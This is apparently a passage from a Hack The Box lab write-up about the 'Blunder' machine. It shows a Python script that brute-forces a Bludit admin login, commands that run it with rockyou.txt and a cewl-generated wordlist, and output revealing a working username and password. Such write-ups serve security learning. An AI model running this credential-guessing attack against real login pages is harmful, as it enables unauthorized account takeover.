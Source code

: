 ```python

#Sending POST REQ
    r = session.post(LoginPage, data = postreqcontent, headers = headerscontent, allow_redirects= False)

#Printing Username:Password            
    process.status('Testing -> {U}:{P}'.format(U = Username, P = Password))            

#Conditional loops    
    if 'Location' in r.headers:
        if "/admin/dashboard" in r.headers['Location']:
            print()
            log.info(f'SUCCESS !!')
            log.success(f"Use Credential -> {Username}:{Password}")
            sys.exit(0)
    elif "has been blocked" in r.text:
        log.failure(f"{Password} - Word BLOCKED")

with open(Username_list) as uf:
    with open(Password_list) as pf:
        for Username in uf:
            u = Username.strip()
            for Password in pf:
                login(u,Password.strip())
```

I had to edit the exploit by adding the "save" variable to the post request (and fix the login loop), but this looks like its good to go otherwise.

Here I made a mistake, I tried a few contextual passwords against the target ("bludit","blunder",etc.) but then I just launched `rockyou.txt` against it.

```bash
python3 auth.py -u fergus.txt -p /usr/share/seclists/Passwords/LeakedDatabases/rockyou.txt -l http://10.10.10.191/admin/login
```

After an hour of waiting around, I realized that this couldn't be the intended solution. This actually taught me about a nifty tool that I had heard about in my OSCP prep, but never used, `cewl`. `cewl` is used for generating wordlists from applications, and is super simple to use. In this case, I generated a wordlist with the following command.

```bash
cewl http://10.10.10.191 > passlist
```

Then, I could pass this "passlist" into the searchsploit brute-forcing exploit.

```bash
$ python3 auth.py -u fergus.txt -p wordlist -l http://10.10.10.191/admin/login
...
[*] SUCCESS !!
[+] Use Credential -> fergus:RolandDeschain
```


[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell